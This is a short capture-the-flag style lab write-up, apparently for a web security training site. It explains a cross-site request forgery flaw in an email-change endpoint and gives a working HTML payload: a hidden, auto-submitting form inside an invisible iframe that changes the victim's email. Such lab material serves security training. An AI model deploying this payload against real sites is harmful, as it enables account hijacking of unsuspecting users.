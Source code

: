 # 1 - CSRF With No Defenses

### Notes

This lab's email change functionality is vulnerable to CSRF.

The feature works by sending a POST request to the `/my-account/change-email` endpoint without a CSRF token.

```http
POST /my-account/change-email HTTP/1.1
Cookie: session=rUQaRA2VvHlC8irD8jXmNIcsqxpzgUY2

email=foo@bar.com
```

### Solution

The following CSRF payload delievered to the user will change their email to `wiener@peter.com`:

```html
<html>
  <body>
    <h1>Hello, user!</h1>

    <iframe name="csrf-iframe" style="display: none;"></iframe>

    <form
      id="csrf-form"
      method="POST"
      action="https://0a7f003a03062960c0e92ff5002f0046.web-security-academy.net/my-account/change-email"
      target="csrf-iframe"
    >
      <input type="hidden" name="email" value="wiener@peter.com" />
      <input type="submit" value="Submit request" />
    </form>

    <script>
      document.getElementById('csrf-form').submit()
    </script>
  </body>
</html>
```
